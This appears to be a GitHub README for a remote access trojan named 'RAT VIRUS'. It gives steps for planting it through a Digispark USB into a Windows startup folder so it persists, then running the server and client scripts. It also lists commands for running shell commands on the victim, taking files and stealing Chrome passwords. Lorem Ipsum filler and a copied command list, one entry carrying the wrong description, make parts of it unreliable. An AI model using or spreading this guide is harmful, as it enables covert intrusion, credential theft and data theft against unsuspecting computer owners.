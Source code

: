 # RAT VIRUS

```
   _____  ____  _____  ______ _   _    _____ _    _          __  __ _      ____  _    _ 
  / ____|/ __ \|  __ \|  ____| \ | |  / ____| |  | |   /\   |  \/  | |    / __ \| |  | |
 | (___ | |  | | |__) | |__  |  \| | | (___ | |__| |  /  \  | \  / | |   | |  | | |  | |
  \___ \| |  | |  _  /|  __| | . ` |  \___ \|  __  | / /\ \ | |\/| | |   | |  | | |  | |
  ____) | |__| | | \ \| |____| |\  |  ____) | |  | |/ ____ \| |  | | |___| |__| | |__| |
 |_____/ \____/|_|  \_\______|_| \_| |_____/|_|  |_/_/    \_\_|  |_|______\____/ \____/ 
```

Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum.

![alt text](https://github.com/soren2007/rat-virus/blob/master/image.jpg?raw=true)

## INSTALLATION

### 1. Clone the repository

```bash
git clone https://github.com/Soren2007/rat-virus.git
```

### 2. Read 'DIGISPARK-RAT-INSTALLER' repository
You can use digispark to install a malicious file on the system. Target it to the system and drop it in the startup location so that the malware runs every time the system is turned on.

To install malware using digispak, you can read and use the link below.
[DIGISPARK-RAT-INSTALLER.git](https://github.com/Soren2007/digispark-rat-installer) 

### 3. Run 'server.py' file

```bash
python server.py
```

### 4. Run 'client.py' file ro connect digispark usb


```bash
python client.py
```

## COMMANDS

|    Row     |   Commad    | Description | Example |
|    :---:   |    :---:    |    :---:    |    :---:    |
|      1     |     cmd!command     | Run cmd commad | cmd!ipconfig |
|      2     |     gf!file_path     | Download and save the file | gf!C:\Users\uname\Desktop\file.pdf |
|      3     |     hk!keyname1+keyname2     | Press key or hotkey | hk!win+a |
|      4     |     cpe!get     | Get chrome passwords | cpe!get |
|      5     |     gwun!get     | Get windows username | gwun!get |
|      6     |     lfv!file_path|size_mg     | Create large file  | lfv!C:\Users|10000 |
|      7     |     sf!file_path     | Send file  | sf!C:\Users\uname\Desktop\file.pdf |


### 1. CMD
Using the cmd!command command, you can run all cmd commands on the target system and get their output.

#### Example
```
cmd!ipconfig
```

![](https://github.com/Soren2007/rat-virus/blob/master/gifs/cmd_command.gif)


#### Command Prompt Commands List:
|    Row     |   Commad    | Description |
|    :---:   |    :---:    |    :---:    |
|      1     |     Append    | The append command can be used by programs to open files in another directory as if they were located in the current directory. The append command is available in MS-DOS as well as in all 32-bit versions of Windows. The append command is not available in 64-bit versions of Windows. |
|      2     |    Arp     | 	The arp command is used to display or change entries in the ARP cache. The arp command is available in all versions of Windows. |
|      3     |    Assoc     | 	The assoc command is used to display or change the file type associated with a particular file extension. The assoc command is available in Windows 11, Windows 10, Windows 8, Windows 7, Windows Vista, and Windows XP. |
|      4     |    At     | 	The at command is used to schedule commands and other programs to run at a specific date and time. The at command is available in Windows 7, Windows Vista, and Windows XP. Beginning in Windows 8, command line task scheduling should instead be completed with the schtasks command. |
|      5     |    Atmadm     | The atmadm command is used to display information related to asynchronous transfer mode (ATM) connections on the system. The atmadm command is available in Windows XP. Support for ATM was removed beginning in Windows Vista, making the atmadm command unnecessar |
|      6     |     Attrib    | 	The attrib command is used to change the attributes of a single file or a directory. The attrib command is available in all versions of Windows, as well as in MS-DOS. |
|      7     |     Auditpol    | 	The bcdboot command is used to copy boot files to the system partition and to create a new system BCD store. The bcdboot command is available in Windows 11, Windows 10, Windows 8, and Windows 7. |
|      8     |     Bcdboot    | The bcdboot command is used to copy boot files to the system partition and to create a new system BCD store. The bcdboot command is available in Windows 11, Windows 10, Windows 8, and Windows 7. |
|      9     |     Bcdedit    | 	The bcdedit command is used to view or make changes to Boot Configuration Data. The bcdedit command is available in Windows 11, Windows 10, Windows 8, Windows 7, and Windows Vista. The bcdedit command replaced the bootcfg command beginning in Windows Vista. |
|      10     |    Bdehdcfg     | The bdehdcfg command is used to prepare a hard drive for BitLocker Drive Encryption. The bdehdcfg command is available in Windows 11, Windows 10, Windows 8, and Windows 7. |
|      11     |    Bitsadmin     | The bitsadmin command is used to create, manage, and monitor download and upload jobs. The bitsadmin command is available in Windows 11, Windows 10, Windows 8, Windows 7, and Windows Vista. While the bitsadmin command is available in those versions of Windows, it is being phased out—the BITS PowerShell cmdlets should be used instead. |
|      12     |         |  |

### 2. GET FILE
Using the gf!file_path command, you can download a file from the target system and save it to the specified path.

Example:
```
gf!C:\Users\uname\Desktop\file.pdf
```

### 3. HOTKEY
